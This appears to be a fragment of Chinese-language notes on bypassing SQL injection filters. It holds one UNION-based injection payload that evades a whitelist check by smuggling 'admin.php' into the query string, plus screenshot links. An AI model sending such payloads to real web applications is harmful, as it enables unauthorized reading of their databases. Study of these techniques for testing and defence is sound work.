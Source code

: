 ![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1677653860382-ee237a83-e78c-4a18-be51-4d6ac7a1ad2d.png)

加了白名单的注入：

```sql
?id=/admin.php?&id=-1' union select 1,2,version()--+
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1677653929896-8467d1fa-5793-4d38-8593-a58ac9a3771b.png)
